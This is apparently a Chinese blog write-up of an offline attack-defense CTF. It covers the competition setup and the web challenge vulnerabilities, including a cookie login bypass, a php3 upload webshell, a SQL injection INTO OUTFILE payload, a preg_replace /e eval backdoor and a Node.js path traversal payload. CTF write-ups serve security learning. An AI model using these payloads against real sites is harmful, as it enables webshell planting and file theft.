









[心得]
下线攻防类比赛，算是第一次参加赛宁举办的线下攻防了，赛前以为会有简单的内置后门可以使用，都已经写好了通过一句话木马写内存马的批量脚本了，但是比赛时没有发现简单的内置一句话木马，导致比赛进程不是很顺利，名次也不佳，其次也是自己太菜。这里就再次简单的总结一下线下攻防比赛的思路和这次比赛的分析。
线下比赛套路汇总
就把给别人培训时写好的PPT贴一下吧




线下攻防的比赛思路大致应该就这么多吧，比较硬的技能点应该是快速定位漏洞和批量脚本的编写上了吧，只要把套路融会贯通，应该能狗住。
比赛的插曲
这里贴一下赛宁比赛的比赛说明关键点如下
比赛环境
- 选手登录后下载环境信息zip包，zip解压密码即为登录密码，zip包中包含包含以下信息：环境ip、登录私钥、选手token；
- 题目虚拟机使用私钥ssh登录，用户名为xctf，私钥在下载的环境信息zip包中；
- 主办方提供各赛题端口的流量数据，在本队维护的题目虚拟机/home/xctf/packages/下，流量数据每10分钟提供一次，如果磁盘空间不足注意清理。
- 每个参参赛选手员网线连接自己PC，dhcp获取地址即可
两个web，两个pwn
提交Flag
登录页面下载的环境信息包含token信息，选手凭借此 token 身份提交 flag。
提交样例：curl http://172.16.200.14:9000/submit_flag/ -d "flag=XXXXX&token=XXXXX"
比赛过程中通过私钥进行登录，导致很多选手不会使用私钥登录，很尴尬，具体的使用如下
1 | sudo ssh -i id_rsa xctf@172.16.5.103 |
后面的操作按照上面的比赛套路进行操作就OK了。
web的漏洞汇总
WEB2汇总
首先我们还要了解web网站的文件配置权限

我们可以看出用户的操作权限明显比www-data用户权限高，也就是防御者的权限高于攻击者的权限，可以防止getshell之后被删站，也可以进行源码的修改。
之后就可以进行常规的操作了
D盾扫描没有常见的后门文件，那现在思路就有两个了，一、先不进行防御，下载流量文件/home/xctf/packages/进行分析，找到漏洞点，利用别人的shell。二、进行防御，可以通过文件的所属者，进行shell的查杀，之后进行代码审计，寻找漏洞。
漏洞一
添加cookie，绕过后台登录验证。

然后水印图片处上传php3后门文件getshell

漏洞二
后台登录处sql注入
/admin/files/login.php1
2
3
4
5
6
7
8
9
10
11
ob_start();
require '../inc/conn.php';
$login=$_POST['login'];
$user=$_POST['user'];
$password=$_POST['password'];
$checkbox=$_POST['checkbox'];
if ($login<>""){
$query = "SELECT * FROM manage WHERE user='$user'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$users = mysql_fetch_array($result);
未对用户输入的用户名和密码进行过滤导致sql注入pyload：user=1' union select 1,2,3,4,5,6,7,'<?php phpinfo();?>' into outfile '/var/www/html/upload/1.php'#&password=qweq&login=yes

漏洞三
/files/list.php
129行左右1
2
3
4
5function getpages($str)
{
echo '123';
}
if(strpos('list',__FILE__)===false){preg_replace("/123(.*)123/ies", 'getpages("\1")', $_GET["pages"]); }
典型的preg_replace /e后门
比赛当时就4个小时的时间，光去利用了第一个漏洞，后面的漏洞，在日志流量中也没有看到，就没有细看，问题很大。
payload：files/list.php?pages=123{${eval($_GET[a])}}123&a=system('cat /flag');

WEB1汇总
Nodejs的一个博客，这个比赛的时候大家应该都没有找到什么漏洞吧，赛后问了一下主办方的师傅，一般的思路点就是：搜索uoload 或者download等关键字，进行查找分析代码，具体漏洞点有
main.js 在处理uploads 的逻辑时，可以从url中传入..%2f 造成目录穿越读取任意文件1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20app.get("/uploads/(*)",
function(req, res) {
if (req.path.indexOf("images") < 0) {
res.set(prefix);
res.send("Error！");
res.end();
} else if (req.path.indexOf('\\.md') > 0) {
res.set(prefix);
res.send("Error！");
res.end();
} else {
res.set({
"Content-Type": "images/jpeg"
});
text = fs.readFileSync(__dirname + decodeURIComponent(req.path));
res.send(text);
res.end();
}
});
payload：/uploads/images/..%2f..%2f..%2f..%2f..%2f..%2f..%2f/flag

Powered by HyperComments